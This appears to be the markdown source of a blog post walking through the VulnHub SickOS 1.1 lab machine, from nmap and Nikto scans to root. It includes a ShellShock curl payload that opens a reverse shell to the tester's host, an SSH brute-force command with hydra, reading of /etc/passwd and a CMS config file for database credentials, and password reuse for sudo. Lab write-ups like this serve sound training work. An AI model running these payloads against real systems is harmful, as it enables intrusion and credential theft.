 ```yaml
---
layout: post
title: "SickOS 1.1 Walkhrough"
tags: [hacking, lab]
---
```

![Sickos 1.1 Walkthrough]({{ site.url }}/img/sickos1.1-walkthrough.png)

This is a walkthrough of [SickOS 1.1](sickos1.1-url) found on [VulnHub](vulnhub-url). The objective is to compromise the VM, gain
root priveleges, and find the flag. We need to treat this machine as a remote server, so we can't use any kernel tricks here.

After booting the virtual machine I needed to find the IP address of the box, so I did a simple ping sweep.

{% highlight bash %}
nmap -n -sP 172.16.49.0/24
{% endhighlight %}

![SickOS 1.1 Ping Sweep]({{ site.url }}/img/sickos1.1-ping-sweep.png)

The IP address of the SickOS 1.1 server is 172.16.149.133. I knew this because the Kali VM IP address is 172.16.149.132. Now
that I have the IP of the SickOS server I need to identify any open ports. Running a nmap scan of the host will give me the 
information I need to get started:

{% highlight bash %}
nmap -n -Pn -sS -p - 172.16.149.133
{% endhighlight %}

![SickOS 1.1 Nmap Scan]({{ site.url }}/img/sickos1.1-nmap-scan.png)

The results show that we have what looks like Squid Proxy Server open on port 3128 and SSH on port 22. Next I want to run a 
Nikto scan to look for any low hanging fruit. Be sure to use the "-useproxy" flag so the scan runs through the proxy.

{% highlight bash %}
nikto -h http://172.16.149.133 -useproxy 172.16.149.133:3128
{% endhighlight %}

![SickOS 1.1 Nikto Scan]({{ site.url}}/img/sick0s1.1-nikto-scan.png)

Some interesting results return from the Nikto scan. Here we can see that the "/cgi-bin/status" portion of the site is vulnerable
to ShellShock. We will use this an attack vector to exploit the server and gain access to the box. Open a second terminal window
and establish a netcat listener.

{% highlight bash %}
nc -lvnp 666
{% endhighlight %}

Now we exploit ShellShock using curl.
{%  highlight bash %}
curl -H "User-Agent: () { ;: }; /bin/bash -i >& /dev/tcp/172.16.149.132/666 0&>1" http://172.16.149.133/cgi-bin/status -x http://172.16.149.133:3128
{% endhighlight %}

![SickOS 1.1 ShellShock Exploit]({{ site.url }}/img/shellshock-exploit.png)

After running the curl command, switch over to the terminal window that is running our Netcat listener. You should have been 
given a shell prompt.

![SickOS 1.1 Reverse Shell Prompt]({{ site.url }}/img/sickos1.1-reverse-shell-prompt.png)

Now that we have access on the box we need to gather some information. First I am going to check out the "/etc/passwd" file.

{%  highlight bash %}
cat /etc/passwd
{% endhighlight %}

![SickOS 1.1 /etc/passwd]({{ site.url }}/img/sickos1.1-etc-passwd.png)

In the results we see that an account exists with the username "sickos", a directory in "home", and that the user has shell access
on the box. Now I want to check out the "/etc/group" file for more information.

{%  highlight bash %}
cat /etc/group
{% endhighlight %}

![SickOS 1.1 /etc/group]({{ site.url }}/img/sickos1.1-etc-group.png)

The results show that the user "sickos" is part of the "adm" group. This is indicative of the user being able to use the sudo command to
access root. Armed with this info I am going to attempt bruteforce SSH to see if I can get the password. I figure I will let hydra
run while I poke around the box looking for any further useful information.

{% highlight bash %}
hydra -t 10 -l sickos -P /usr/share/wordlist/rockyou.txt -vV 172.16.149.133 ssh
{% endhighlight %}

I tried to get this started several times with no avail - looks like there might be something blocking it, so I am going to continue
gathering information on the box. Because this server is acting as a webserver; typically web files are hosted in "/var/www," so I am
going to change to the directory and list out all files.

{% highlight bash %}
cd /var/www/
ls
{% endhighlight %}

![SickOS 1.1 ls /var/www]({{ site.url.}}/img/sickos1.1-ls-var-www.png)

Here we see a directory called "wolfcms" - this contains the website and configuration files. Within the "wolfcms" dir there is a
file called "config.php." These config files typically have database usernames, passwords, and configuration settings for the 
website, so I am going to take a look.

{% highlight bash %}
cat config.php|head -20
{% endhighlight %}

![SickOS 1.1 config.php Contents]({{ site.url }}/img/sickos1.1-config.php-contents.png)

In the "config.php" is a database username and password. One thing about users' is they tend to use the same password everywhere,
so lets try using it with SSH and the "sickos" user. 

{% highlight bash %}
ssh sickos@172.16.149.133
{% endhighlight %}

The SSH username and pasword worked! Since we know "sickos" is in sudoes lets switch to "root" and see what is in the "/root"
directory.

{% highlight bash %}
sudo su -
# enter sickos password
ls
{% endhighlight %}

Inside the "/root" directory is the flag, cat the file out and we have completed the objective!

![SickOS 1.1 Cat Flag]({{ site.url }}/img/sickos1.1-cat-flag.jpg)

[sickos1.1-url]: https://www.vulnhub.com/entry/sickos-11,132/
[vulnhub-url]: https://www.vulnhub.com/